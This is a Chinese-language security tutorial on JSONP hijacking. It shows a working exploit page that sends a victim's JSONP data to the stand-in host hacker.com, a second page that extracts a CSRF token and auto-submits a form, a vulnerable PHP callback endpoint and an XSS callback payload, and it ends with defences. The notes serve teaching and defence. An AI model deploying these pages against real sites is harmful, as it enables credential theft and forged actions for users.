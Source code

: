 ```yaml
---
aliases: []
tags: ['Security','date/2022-11','year/2022','month/11']
date: 2022-11-30-星期三 19:56:15
update: 2022-11-30-星期三 19:58:19
---
```


## JSONP介绍

说起[[跨域]]请求资源的方法，最常见的方法是JSONP/CORS。下面以具体的例子介绍一下[[跨域#JSONP|JSONP]]的工作原理。

JSONP全称是JSON with Padding ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

JSONP原理就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。

比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

## JSONP劫持

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，hacker怎么去获取到这些信息呢，我们可以自己构造一个页面，然后诱惑用户去点击，在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上。

没错JSONP劫持类似于[[前端安全：CSRF|CSRF]]漏洞，步骤大概如下图所示：

![[1666134937.png]]

利用代码如下所示：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
function hehehe(obj){
    var myForm = document.createElement("form");
    myForm.action="http://hacker.com/redirect.php";
    myForm.method = "GET";  
    for ( var k in obj) {  
        var myInput = document.createElement("input");  
        myInput.setAttribute("name", k);  
        myInput.setAttribute("value", obj[k]);  
        myForm.appendChild(myInput);  
    }  
    document.body.appendChild(myForm);  
    myForm.submit();  
    document.body.removeChild(myForm);
}
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=hehehe"></script>
</body>
</html>
```

诱惑用户访问此html，会以用户的身份访问`http://localhost/callback.php?callback=hehehe`,拿到敏感数据，然后执行hehehe函数，将数据发送给`http://hacker.com/redirect.php`。抓包可以拦截到如下请求包：

```http
GET /redirect.php?customername1=user1&password=12345678 HTTP/1.1
Host: hacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.133.136.120/test.html
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。

## 利用JSONP绕过token防护进行csrf攻击

具体的实例可以看看参考文章2，3。

通过上面例子，我们知道JSONP可以获取敏感的数据，在某些情况下，还可以利用JSONP劫持绕过token限制完成csrf攻击。

假设有个场景是这样：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf\_token，然后提交表单，造成csrf漏洞。示例利用代码如下(来自参考文章2)：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。

## JSONP劫持挖掘与防御

对于漏洞挖掘，我们首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的，计划以后的文章中再说)

对于JSONP劫持的防御，其实类似于csrf的防御。以下来源于参考文章4:

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss

## 参考

- [JSONP 劫持原理与挖掘方法](https://www.k0rz3n.com/2019/03/07/JSONP%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86%E4%B8%8E%E6%8C%96%E6%8E%98%E6%96%B9%E6%B3%95/)
- [JSONP绕过CSRF防护token](https://xz.aliyun.com/t/5143)
- [分享一个jsonp劫持造成的新浪某社区CSRF蠕虫](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)
- [JSONP 安全攻防技术](https://blog.knownsec.com/2015/03/jsonp_security_technic/)
